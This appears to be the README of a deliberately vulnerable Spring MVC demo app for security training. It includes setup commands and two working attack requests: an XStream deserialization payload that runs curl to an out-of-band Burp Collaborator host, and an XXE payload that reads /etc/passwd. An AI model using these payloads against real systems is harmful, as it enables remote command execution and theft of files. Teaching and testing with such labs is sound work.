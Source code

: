 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn clean install jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker run -v `pwd`:/data -p 8080:8080 -it maven /bin/bash`
4. `mvn clean install jetty:run`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```


